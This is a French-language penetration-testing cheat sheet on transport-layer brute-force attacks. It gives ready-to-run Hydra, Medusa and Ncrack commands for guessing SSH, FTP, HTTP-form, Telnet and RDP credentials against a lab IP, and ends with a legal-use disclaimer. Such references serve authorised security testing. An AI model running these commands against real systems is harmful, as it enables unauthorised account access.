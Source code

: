 # Couche 4 (Transport) – Attaques et Outils

**Version Testée :**
- THC Hydra 9.x
- Medusa 2.x
- Ncrack 0.7.x

**Description :**  
Ce document recense les outils et attaques disponibles pour la couche Transport du modèle OSI.  
La couche 4 gère le transport des données via des protocoles tels que TCP et UDP.  
Les outils présentés permettent de mener des attaques de force brute sur divers protocoles (SSH, FTP, Telnet, RDP, etc.) ainsi que des tests d’authentification.  

---

### Outil: Hydra
**Description :**  
Hydra est un outil de force brute réseau rapide, supportant de nombreux protocoles tels que SSH, FTP, HTTP, etc.

#### Attaque: Bruteforce SSH
*Détails de l'attaque :*  
Utiliser Hydra pour tester une combinaison de login/mot de passe sur un service SSH.

###### Commande: Bruteforce SSH
```bash
hydra -l admin -P passlist.txt ssh://192.168.1.1
```
Détails :
- Login : admin  
- Wordlist : passlist.txt  
- Cible : 192.168.1.1

#### Attaque: Bruteforce FTP
*Détails de l'attaque :*  
Tester plusieurs combinaisons sur le service FTP pour obtenir un accès non autorisé.

###### Commande: Bruteforce FTP
```bash
hydra -L users.txt -P ftp_pass.txt ftp://192.168.1.1
```
Détails :
- Liste d’utilisateurs : users.txt  
- Wordlist FTP : ftp_pass.txt  
- Cible : 192.168.1.1

#### Attaque: Bruteforce HTTP POST
*Détails de l'attaque :*  
Tester des formulaires de connexion HTTP pour trouver les identifiants valides.

###### Commande: Bruteforce HTTP POST
```bash
hydra -l user -P rockyou.txt 192.168.1.1 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"
```
Détails :
- Test sur formulaire HTTP  
- Cible : 192.168.1.1

---

### Outil: Medusa
**Description :**  
Medusa est un brute-forcer parallèle pour les connexions réseau, permettant de tester rapidement de nombreux protocoles.

#### Attaque: Bruteforce Telnet
*Détails de l'attaque :*  
Utiliser Medusa pour forcer l’accès à un service Telnet via une attaque par dictionnaire.

###### Commande: Bruteforce Telnet
```bash
medusa -h 192.168.1.1 -u admin -P telnet_pass.txt -M telnet
```
Détails :
- Cible : 192.168.1.1  
- Nom d'utilisateur : admin  
- Wordlist : telnet_pass.txt

---

### Outil: Ncrack
**Description :**  
Ncrack est un outil de crack d'authentification réseau à grande vitesse, idéal pour tester la robustesse des services comme SSH ou RDP.

#### Attaque: Bruteforce RDP
*Détails de l'attaque :*  
Utiliser Ncrack pour tester les identifiants sur un service Remote Desktop Protocol.

###### Commande: Bruteforce RDP
```bash
ncrack -p 3389 192.168.1.1
```
Détails :
- Cible : 192.168.1.1  
- Port RDP : 3389

#### Attaque: Bruteforce SSH (alternative)
*Détails de l'attaque :*  
Tester les identifiants SSH en alternative à Hydra.

###### Commande: Bruteforce SSH avec Ncrack
```bash
ncrack -p 22 192.168.1.1
```
Détails :
- Cible : 192.168.1.1  
- Port SSH : 22

---

## Précautions Légales & Disclaimer
**Attention :**  
L'utilisation de ces outils et commandes doit être réalisée dans un cadre légal et exclusivement en environnement de test. Toute utilisation malveillante est strictement interdite.

---

## Références & Ressources
- [THC Hydra GitHub](https://github.com/vanhauser-thc/thc-hydra)
- [Medusa GitHub](https://github.com/jmk-foofus/medusa)
- [Ncrack Official Website](https://nmap.org/ncrack/)
```